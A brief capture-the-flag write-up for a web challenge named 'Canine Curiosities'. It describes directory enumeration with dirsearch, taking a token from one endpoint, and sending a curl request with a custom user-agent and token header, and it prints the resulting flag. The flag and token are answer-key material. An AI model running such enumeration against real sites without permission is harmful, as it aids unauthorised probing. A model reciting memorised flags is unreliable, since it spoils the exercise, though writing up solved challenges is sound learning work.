 # Canine Curiosities
- Used dirsearch on url: https://canine-curiosities.vercel.app to find [url/app.js](https://canine-curiosities.vercel.app/app.js)  .

- Found the token from [url/forget](https://canine-curiosities.vercel.app/forget) and then used 'cux' as user-agent to retrieve flag from [url/fact](https://canine-curiosities.vercel.app/fact) .

- Used the following command in terminal :
    ```bash
  $ curl -H "user-agent:cux" -H "token:fec62644-6db3-11ee-a34a-505bc2eeff4f" https://canine-curiosities.vercel.app/fact
    ```
- Got the following result :
    ```
    {
      "fact":"cruXipher{m0n15h4_f0R_pR0m_qV33n}"
    }
    ```

## Flag
```
cruXipher{m0n15h4_f0R_pR0m_qV33n}
```
